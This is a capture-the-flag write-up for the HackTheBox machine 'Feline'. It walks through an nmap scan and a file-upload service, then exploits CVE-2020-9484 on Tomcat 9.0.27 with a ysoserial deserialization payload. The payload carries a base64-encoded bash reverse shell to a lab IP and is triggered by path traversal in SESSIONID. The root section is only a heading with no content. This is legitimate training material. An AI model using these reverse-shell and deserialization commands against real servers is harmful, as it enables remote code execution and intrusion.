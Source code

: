 ```yaml
---
title: Feline HackTheBox
published: true
tags: Tomcat ysoserial java file upload CVE-2020-9484 sessionid deseralization
---
```


## nmap scan

```bash
# nmap -sC -sV -Ao nmap 10.10.10.205

Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-06 12:28 CEST
Nmap scan report for 10.10.10.205
Host is up (0.029s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
8080/tcp open  http    Apache Tomcat 9.0.27
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: VirusBucket
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 65.87 seconds
```

## open port 

- port 22 as ssh as usual
- port 8080 with a running tomat instance at version 9.0.27

## tomcat 9.0.27

A little bit of looking around reveals that the running version of tomcat seems to be vulnerable to a rce exploit. [1](https://github.com/PenTestical/CVE-2020-9484)

## file upload

Looking around and playing around reveals a file upload service at `http://10.10.10.205:8080/service/`. It gets an email address and a file. The service says it checks the file for malicious content and sends a report to the email address. 
Playing around with burpsuite reveals that the service tries to store those files under `/opt/samples/uploads` and uses `apache/commons/fileupload` to do that.

![BurpSuite FileUpload](../assets/BurpSuite-FileUpload.png "BurpSuite FileUpload")

## combining

Combining the RCE exploit with the findings of the file upload we can create a reverse shell with [ysoserial](https://github.com/frohoff/ysoserial), upload it and call it with path traversal of the `SESSIONID` field in the request. 

## exploiting user

Starting with the reverse shell file we start up with ysoserial to create the payload. Because we don't know the Verison of `apache/commons/fileupload` we have to try serveral `CommonsCollectionsX` provided by ysoserial. As reverse shell we're using a bash shell which we base64 encode. 

1. base64 of bash revese shell
```bash
# echo 'bash -i >& /dev/tcp/10.10.14.18/4242 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xOC80MjQyIDA+JjEK
```

2. create reverse shell with ysoserial
```bash
java -jar ysoserial-master.jar CommonsCollections2 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xOC80MjQyIDA+JjEK}|{base64,-d}|{bash,-i}" > shell.session
```

We take that file and upload it using the intended way. Thereupon we request any site on the tomat site and manipulate the `SESSIONID` using burpsuite. The value is equivalent to the previous found directory where the files are uploaded to + the file name of the created reverse shell subtracted by the `.session` file-extrension. This is because tomcat automatically appends `.session` to the requested `SESSIONID`.

![BurpSuite SESSIONID](../assets/BurpSuite-SessionID.png "BurpSuite SESSIONID manipulation")

Start a listener on the local maschine and forward the manipulated request. Voila! User level of Fiola. 

## root exploitation

